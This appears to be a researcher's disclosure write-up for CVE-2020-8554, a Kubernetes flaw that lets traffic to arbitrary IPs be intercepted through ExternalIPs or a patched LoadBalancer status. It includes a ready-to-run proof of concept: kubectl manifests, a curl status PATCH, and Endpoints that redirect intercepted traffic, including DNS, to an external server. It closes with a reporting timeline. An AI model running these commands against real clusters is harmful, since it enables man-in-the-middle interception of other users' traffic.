

# Kubernetes man in the middle using LoadBalancer or ExternalIPs (CVE-2020-8554)

It's 2 weeks before the end of 2019, we are deploying a Kubernetes cluster at a client with MetalLB as LoadBalancer,
and for unknown reasons at the time, MetalLB VIP randomly stops working (in the end it was too small CPU limits but that's not important).
As we need to have the platform in production before the end of year,
we agree with the client to put some workaround in place to temporarily replace MetalLB.

Instead of modifying our deployments to add `hostPort`, I got a clever idea,
why not create a new `Service` with as `ExternalIPs` the node IPs,
it would allow to get the traffic from node_x_IP:443 to the right pods and allow us
to debug MetalLB on the side.

We immediately applied the following manifest:
```
apiVersion: v1
  kind: Service
  metadata:
    name: myapp
    namespace: anevia
spec:
  ports:
  - name: http
    port: 80
    protocol: TCP
    targetPort: 80
  - name: https
    port: 443
    protocol: TCP
    targetPort: 443
  selector:
    app: myapp
  externalIPs:
  - <node_1_IP>
  - <node_2_IP>
  ...
  - <node_n_IP>
```
and it immediately broke the cluster.

Kube-proxy IPVS adds the `ClusterIP`, `ExternalIP` and `LoadBalancerIP` to the `kube-ipvs0` interface,
so the nodes could not talk to each other anymore.

After fighting a bit to repair the cluster with one of my colleagues, I had a light bulb moment:
I just need to set `externalIPs` to intercept the traffic of any IP, this is NICE (MITM as a Service).

As I had already reported a security issue to Kubernetes ([CVE-2019-9946](../CVE-2019-9946/README.md)),
I was invited to the private launch of Kubernetes bug bounty during the summer of 2019.
Of course the invite had expired, but I was able to get a new one quickly.

## POC

First create the target MITM pod
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Namespace
metadata:
  name: kubeproxy-mitm
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: echoserver
  namespace: kubeproxy-mitm
spec:
  replicas: 1
  selector:
    matchLabels:
      app: echoserver
  template:
    metadata:
      labels:
        app: echoserver
    spec:
      containers:
      - image: gcr.io/google_containers/echoserver:1.10
        name: echoserver
        ports:
        - name: http
          containerPort: 8080
        - name: https
          containerPort: 8443
EOF
```

Then to perform the MITM using LoadBalancer, just replace `<IP>` with the IP you want to MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-lb
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: LoadBalancer
  loadBalancerIP: <IP>
EOF
kubectl proxy --port=8080 &
sleep 3
curl -k -v -XPATCH  -H "Accept: application/json" -H "Content-Type: application/merge-patch+json" 'http://127.0.0.1:8080/api/v1/namespaces/kubeproxy-mitm/services/mitm-lb/status' -d '{"status":{"loadBalancer":{"ingress":[{"ip":"<IP>"}]}}}'
kill $!
```

Or to perform the MITM using ExternalIP, just replace `<IP>` with the IP you want to MITM
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Service
metadata:
  name: mitm-externalip
  namespace: kubeproxy-mitm
spec:
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
  selector:
    app: echoserver
  type: ClusterIP
  externalIPs:
    - <IP>
EOF
```

You can also redirect the MITM traffic to an external server, by removing the selector of the service, and manually creating Endpoints
```
kubectl apply -f - <<'EOF'
apiVersion: v1
kind: Endpoints
metadata:
  name: mitm-externalip
  namespace: kubeproxy-mitm
subsets:
- addresses:
  - ip: <EXTERNAL SERVER IP>
  ports:
  - name: http
    port: 80
    targetPort: 8080
  - name: https
    port: 443
    targetPort: 8443
EOF
```

This also works for UDP (so DNS)

## Asciinema

### Pre-checks
[](https://asciinema.org/a/fZriwcMLxIAhOPiTW4LSwB3rG)

### DNS MITM (internal endpoint)
[](https://asciinema.org/a/zJmluAW0RmnoGxSq1cX9dqxRE)

### DNS MITM (external endpoint)
[](https://asciinema.org/a/VoF1PE9cda9YkPP2paWYtFsdw)

## Tests

To properly qualify the issue, I used 3 clusters:
- CentOS 7, kubespray, K8S v1.16.3, containerd, Calico, kube-proxy iptables
- same except kube-proxy IPVS
- GKE 1.15.4-gke.22 to make it easier to reproduce the results for K8S Team

I found 2 ways to man in the middle the traffic, by:

a) creating a LoadBalancer service and patching the status with the attacked IP

b) creating a ClusterIP service with ExternalIPs set to the attacked IP

For these 2 options, I explored:

1) MITM of IPs external to the cluster

2) MITM of ClusterIP IP

3) MITM of pod IP

4) MITM of 127.0.0.1

This give us the following:



4b is already blocked.

2/3/4 could all be blocked by default, as those are not valid use cases.

1 is expected behavior for me, I want my pods to be able to talk to ExternalIP or LoadBalancerIP.

Another issue seen during my tests is that you can have multiple services with the same externalIP/port
```
# kubectl get svc -n kubeproxy-mitm
NAME                    TYPE           CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
mitm-external-eip-dns   ClusterIP      10.233.55.182   8.8.8.8       53/UDP         4m10s
mitm-external-lb-dns    LoadBalancer   10.233.35.158   8.8.8.8       53:31303/UDP   64s
```
```
# kubectl get svc -n kubeproxy-mitm
NAME                    TYPE           CLUSTER-IP      EXTERNAL-IP   PORT(S)        AGE
mitm-external-lb-dns1   LoadBalancer   10.233.47.145   8.8.8.8       53:31545/UDP   4m37s
mitm-external-lb-dns2   LoadBalancer   10.233.40.23    8.8.8.8       53:31556/UDP   4m37s
mitm-external-lb-dns3   LoadBalancer   10.233.28.107   8.8.8.8       53:31206/UDP   4m37s
```
The service that gets the traffic seems to be random.

## Timeline

* 2019-12-19: light bulb moment
* 2019-12-20: New invite to K8S bug bounty
* 2019-12-27: Initial report
* 2020-01-09: After some back and forth, report validated
* 2020-03-03: CVE-2020-8554 reserved
* 2020-12-07: [Public disclosure](https://github.com/kubernetes/kubernetes/issues/97076)

## Acknowledgments

- Thanks to my colleague Fabien for breaking this cluster with me ;)
- Thanks to the Kubernetes Security Team
